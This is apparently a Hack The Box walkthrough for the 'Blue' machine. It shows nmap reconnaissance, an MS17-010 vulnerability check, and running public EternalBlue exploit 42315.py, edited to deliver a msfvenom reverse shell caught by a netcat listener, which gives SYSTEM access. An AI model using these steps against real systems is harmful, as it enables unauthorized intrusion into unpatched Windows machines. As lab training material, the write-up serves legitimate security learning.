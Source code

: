 <p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/86ee30d6-5fc7-4c3f-8844-d35480574798">
</p>

<h1 align="center">Blue</h1>

<h2>Intro</h2>

<p>In this walkthrough we are going to talk about the machine <strong>Blue</strong>, it's an easy machine. We are going to me exploiting MS17-010, or Eternal Blue.
EternalBlue is a cyberattack exploit developed by the NSA that targets a vulnerability in Microsoft's SMB protocol. Its purpose is to gain unauthorized access to Windows computers. It had a significant impact, being used in major cyberattacks like WannaCry and NotPetya, causing widespread disruption and damage globally.
You can get more info about it here:
</p>

<a href="https://github.com/blog/eternalblue-nsa-developed-exploit-just-wont-die" style="text-align: center; display: block;">
  EternalBlue Exploit: What It Is And How It Works
</a>


<h2>Walkthrough</h2>

<h3>Recon and ennumeration</h3>

<p>As always we start by doing a fast TCP SYN scan with nmap</p>

<pre>nmap -p- -v -sS -Pn -f -n --min-rate 5000 --open 10.10.10.40 -oG allPorts</pre>

<ul>
  <li><strong>-p-</strong>: we are specifying that we want as many ports as possible to be scanned<li>
  <li><strong>-v</strong>: gives me a more detailed output during the scan</li>
  <li><strong>-sS</strong>: here we specify that we are doing a TCP SYN scan, it's faster than a full TCP scan, at the moment we just want to check the ports</li>
  <li><strong>-Pn</strong>: this flag is set to disable host discovery. It is used when the target does not respond to pings</li>
  <li><strong>-n</strong>: disables DNS resolution, this flag gives us more speed in the scan by avoiding resolving hostname, we will check that later</li>
  <li><strong>--min-rate 5000</strong>: with this flag, we are setting the minimum packet sending rate to 5000 packets per second, it makes the scan faster</li>
  <li><strong>--open</strong>: here we are specifying that we only want to show in the scan result the ports that are open</li>
  <li><strong>-oG allPorts</strong>: I am saving the scan result in a grepeable file called allPorts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/7924a960-3d1d-4f37-bfb5-1b8408b72992">
</p>

<p>We can see that port 445, we are going to do a more thorough scan of the ports to see if we find anything else but, at this point we should directly throw the script that shows if it is vulnerable to MS17-010. Whenever we look at port 445 and see that the system is a Windows XP to Windows Server 2016 system we should check if it is vulnerable to EternalBlue.</p>

<pre>nmap -p135,139,445 -v -Pn -n --min-rate 5000 --open -sCV 10.10.10.40 -oN targeted</pre>

<ul>
  <li><strong>-sC</strong>: It runs default scripts to get more info about our target. Uses common scripts for common vulns</li>
  <li><strong>-sV</strong>: this flag will return the version of the service that is on the open port</li>
  <li><strong>-oN targeted</strong>: this flag outputs the scan on a file named targeted. has a more comprehensible result</li>
</ul>

<p>
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/1d76b40b-5bb6-4735-9674-b4c0cdc92a40">
</p>

<pre>nmap -p445 --script smb-vuln-ms17-010 10.10.10.40</pre>

<ul>
  <li><strong>--script</strong>:  is used to specify Nmap scripts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/d1838ef7-7f55-4a1a-8297-af5ceca9dda2">
</p>

<p>Yep, it's vulnerable to MS17-010!</p>

<h2>Getting inside</h2>

<p>Here we already know that it's vulnerable to EternalBlue, so let's use <strong>searchsploit</strong> to check if Kali has something to deal with it (Kali obviously has tools for it 😄)</p>

<pre>searchsploit ms17-010</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/b54562df-0d78-47e9-a4d5-50bbb31d6bc1">
</p>

<p>We can see a few scripts, the one that has helped me is the script 42315.py. So in the directory we are working in, we do the following to bring us the script</p>

<pre>searchsploit -m windows/remote/42315.py</pre>

<ul>
  <li><strong>-m</strong>: this flag will tell searchsploit to move/copy the script to the current directory</li>
</ul>

<p><strong>IMPORTANT:</strong> I've got some problems with this script becouse it's quite old and it's using Python 2.7, here it is what I've done to make it work:</p>

<ol>
  <li>
    <p>sudo apt update</p>
    <p>sudo apt install build-essential libssl-dev libffi-dev python2 python2-dev</p>
  </li>
  <li>
    <p>curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py</p>
    <p>sudo python2.7 get-pip.py</p>
  </li>
  <li>
    <p>git clone https://github.com/SecureAuthCorp/impacket.git</p>
    <p>cd impacket</p>
  </li>
  <li>git checkout impacket_0_9_22</li>
  <li>sudo pip2 install -r requirements.txt</li>
  <li>sudo python2.7 setup.py install</li>
  <li>pip install pyasn1 pycryptodomex</li>
</ol>

<p>You can also try to clone mysmb.py instead of the whole impacket git, but this is how it worked for me</p>

<p><strong>ALSO IMPORTANT:</strong> I was also looking at the script code and, you have to add or uncomment the two lines below the lines I have added in the smb_pwn() function, this function is just uploading a .txt right now, what we are looking for is to return a reverse shell, so let's prepare it with msfvenom</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/ad2d380a-7c08-4554-86f5-b6e3013e921b">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/392d1791-9b40-4a56-b08d-924d72eb7bee">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/946a71e5-1003-46ca-ab63-e58ee6708104">
</p>

<p>And now if we prepare a listener with <strong>Netcat</strong> and execute the python script we are in! Also we are authority\system already! 😄</p>

<pre>nc -lnvp 1234</pre>

<pre>python2 42315.py 10.10.10.40</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/c62aaea8-fd4b-41b1-a515-292594b428bc">
</p>

<p>So we can get both flags!</p>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/de58a251-53c5-4a43-83b4-fca57711af26">
</p>

<p>This machine has been interesting to make, I have learned something more about EternalBlue. Be nice!</p>
